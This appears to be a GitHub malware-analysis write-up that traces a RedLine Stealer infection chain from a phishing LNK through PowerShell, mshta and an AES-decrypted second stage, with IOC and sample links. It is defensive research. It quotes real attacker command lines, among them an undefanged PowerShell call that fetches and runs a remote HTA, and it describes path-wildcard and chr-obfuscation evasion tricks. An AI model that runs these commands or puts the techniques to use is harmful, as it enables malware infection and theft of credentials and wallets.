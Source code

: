 # RedLine Stealer infection chain analysis using AnyRun Sandbox

## Overview of RedLine Stealer :

- RedLine Stealer, an infostealer malware first identified in March 2020, specializes in extracting valuable information and assets from compromised systems, primarily targeting end users. Commonly distributed through compromised software downloads, phishing attempts, and drive-by downloads, RedLine Stealer focuses on pilfering insecure passwords and cryptocurrency wallets. Beyond these targets, it possesses the capability to harvest an array of system information, including IP addresses, usernames, keyboard layouts, and installed security solutions. Moreover, it can serve as a vehicle for distributing additional malware, such as ransomware, exacerbating the potential damage.
 
- More information on the RedLine Stealer and its trends can be found in ANY.RUN’s Malware Trends. RedLine is top trending malware in 2023.

- https://any.run/malware-trends/redline

![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/da455b4c-dd0a-46ec-a629-62b92140dbef)

## RedLine Infection Vectors :

- RedLine's versatility is evident in its diverse delivery mechanisms, It is used in multiple smaller campaigns by individuals who have purchased the malware from the underground malware forums. Due to this, there are a wide range of known infection vectors. Only few of them are stated below:
 
  - Trojanizing as popular services like Telegram, Signal, or Discord to create seemingly legitimate installers.
  - Email phishing campaigns aimed at luring victims into downloading the malware.
  -	Exploitation of Google Ads while hosting Trojanized or fake websites.
  -	Social engineering tactics targeting digital artists using Non-Fungible Tokens (NFTs).
  -	Distribution through malware loaders, expanding its reach across various compromised systems.

## Sample Collection and Preparation for Analysis :

### AnyRun :

> https://app.any.run/tasks/5a51d459-6caa-47dd-9b27-715ca2ec92bb/             

> https://app.any.run/tasks/6212356e-6b48-4e80-b0fc-8c3dd5111e1d/

### MalwareBazaar

> https://bazaar.abuse.ch/sample/3086ac8861aaccdf3dc45f3b1380b6cd70169c7d9fc16f098f5a1d08736fed61/

## Analysis :

- The infection chain unfolds as follows:
 
  ***`LNK -> PS -> mshta.exe (URL1) -> PS -> cmd.exe -> PS (obfuscate + b64 + AES-decrypt) -> URL2 (exe)`***
 
- The initial payload is distributed via a phishing email containing a ZIP file. Once the ZIP file is extracted, you'll come across an LNK file that appears as a PDF symbol.

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/659ea9a9-24b8-4432-b310-e7ede57cf94a)

- Following the execution of the LNK file, it utilizes PowerShell to initiate the execution of mshta.exe. 

- Mshta.exe is a Windows-native binary designed to execute Microsoft HTML Application (HTA) files. As its full name implies, Mshta can execute Windows Script Host code (VBScript and JScript) embedded within HTML in a network proxy-aware fashion.

- To avoid detection, attackers are using the path (\W*\2\msh*e) instead of the standard path - C:\Windows\System32\mshta.exe.

  Command Line - ***`"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" \W*\\\*2\\\msh*e ('http'+'://thanhancompany.com/ta/line'+'.hta')`***

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/d2256dce-b51b-4bfd-94b0-aa409bafb609)

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/faa42324-2cd6-4106-a125-0ef89810469d)

- The mshta.exe establishes a connection with the URL specified in the LNK file and execute the hta file.
 
  Command Line - ***`"C:\Windows\System32\mshta.exe" http[://]thanhancompany[.]com[/]ta[/]line[.]hta`***

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/4933084e-1cfa-4cb4-af7b-f3018f39fb01)

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/b2d33313-9731-4fd6-b750-4c146b340612)

- The HTA script uses the VBScript ‘chr’ function to obfuscate by translating ASCII codes into characters (e.g., Chr(65)   represents 'A').

-	VBScript often employs the 'chr' function to obfuscate its code, where 'chr' converts Ascii codes to characters e.g. Chr(65) will return 'A'. 

-	In this script it uses simple subtraction before converting the character to Ascii using chr.

  Reference Link - https://isvbscriptdead.com/vbs-obfuscator/
 
-	Two methods can deobfuscate this script:
 
      1. Using CyberChef.
 
      2. Save the HTA content as a new file. Replace instances of 'Execute' with 'Wscript.Echo' within the resulting VBS file. Running the modified file using cscript.exe reveals the deobfuscated script.

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/0957627c-5657-411d-9db2-9058a56f6ef4)

-	In the AnyRun sandbox you will get you the deobfuscated script from the following Process 3008.

-	This deobfuscated hta script contains 2nd stage obfuscated PowerShell script which utilize AES decryption along with Gzip decompress and then execute using cmd.exe.

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/336ba7ba-1ee3-40bf-b4f2-75b057854d95)

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/a3591110-db01-4956-8c4c-29df047907a4)


-	We will dump 2nd stage PowerShell script simply writing Write-Host at the bottom of the script and execute it.

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/70ec5fcf-f104-4422-a71e-027cfe7afca9)

-	2nd stage PowerShell first opens Blank pdf and after then connects to the below URL and download ReadiLine Stealer and execute it.

   Command Line – ***`https[://]hiqsolution[.]com`***

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/2e102262-fb99-4f81-b5d3-6986cb33dadc)

-	Below snap shows the blank pdf opened after 2nd stage execution.

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/d71d80a6-ba56-49ef-8ec3-ea3197f89e8b)


## IOC’s :

  IOC Link – AnyRun Report (https://any.run/report/1bf287baf71f2a0872005e73399685df6b3a2b27cb2f27511deb4bdf566fbe67/5a51d459-6caa-47dd-9b27-715ca2ec92bb?_gl=1*cmzv32*_gcl_au*NjY1NzUzNzkuMTY5NzIxMzg3MA..*_ga*MTk4MTUxNzQ0LjE2NzQ4MzE3MjM.*_ga_53KB74YDZR*MTcwMzgzNjIwNy4zNy4xLjE3MDM4Mzg2MTYuMC4wLjA)


## References :

- 
- 
